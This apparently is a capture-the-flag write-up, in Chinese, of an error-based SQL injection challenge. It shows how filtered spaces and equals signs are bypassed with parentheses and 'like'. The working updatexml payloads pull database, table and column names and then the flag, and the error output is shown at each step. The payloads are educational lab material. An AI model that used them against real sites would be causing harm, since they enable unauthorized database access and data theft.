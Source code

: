 空格被过滤 用括号绕过

报错注入相关的没有被过滤

```
?username=admin&password=1'or(updatexml(0,concat(0x5e,database()),0))%23
```

XPATH syntax error: '^geek'

=被过滤

```
?username=admin&password=1'or(updatexml(0,concat(0x5e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))),0))%23
```

XPATH syntax error: '^H4rDsq1'

```
?username=admin&password=1'or(updatexml(0,concat(0x5e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))),0))%23
```

XPATH syntax error: '^id,username,password'

```
?username=admin&password=1'or(updatexml(1,concat(0x5e,(select(group_concat(password))from(geek.H4rDsq1)),0x5e),1))%23
```

XPATH syntax error: '^flag{46528c12-e3bd-408a-9bbf-b7'

加一个right((select语句), 30)

```
?username=admin&password=1'or(updatexml(1,concat(0x5e,right((select(group_concat(password))from(geek.H4rDsq1)),30),0x5e),1))%23
```

XPATH syntax error: '^2-e3bd-408a-9bbf-b702ee7598e9}^'

flag{46528c12-e3bd-408a-9bbf-b702ee7598e9}